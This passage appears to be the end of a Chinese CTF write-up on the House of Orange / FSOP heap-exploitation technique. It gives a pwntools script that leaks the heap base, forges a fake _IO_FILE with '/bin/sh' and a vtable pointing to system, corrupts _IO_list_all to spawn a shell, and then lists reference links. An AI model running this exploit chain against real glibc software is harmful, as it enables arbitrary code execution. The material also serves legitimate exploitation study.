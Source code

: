  ```python
 
 # leak heap_base
 edit(0x10, 'a'*0x10, 0x10, 1)
 show()
 p.recvuntil('a'*0x10)
 heap_base = u64(p.recv(6).ljust(8, '\x00')) & 0xfffffffff000
 success('heap_base -> {}'.format(hex(heap_base)))
 # pause()
 
 # fsop
 payload = 'a'*0x400 + p64(0) + p64(0x21) + p32(0x10) + p32(0x1f) + p64(0)
 fake_file = '/bin/sh\x00' + p64(0x61)
 fake_file += p64(0) + p64(_IO_list_all - 0x10)
 fake_file += p64(0) + p64(1) #_IO_write_base < _IO_write_ptr
 fake_file = fake_file.ljust(0xc0,'\x00')
 fake_file += p64(0) * 3
 fake_file += p64(heap_base+0x5c8) #vtable ptr
 fake_file += p64(0) * 2
 fake_file += p64(system)
 payload += fake_file
 edit(len(payload), payload, 16, 1)
 # pause()
 p.sendlineafter(': ', '1')
 
 p.interactive()
 ```

## 参考链接

https://www.anquanke.com/post/id/177910

https://www.anquanke.com/post/id/177958

https://ray-cp.github.io/archivers/IO_FILE_fwrite_analysis

https://ray-cp.github.io/archivers/IO_FILE_vtable_hajack_and_fsop

https://orangegzy.github.io/2020/08/18/houseoforange-hitcon-2016-FSOP/

https://fl0ey.icu/2020/10/15/house_of_orange/

https://zhuanlan.zhihu.com/p/65873040
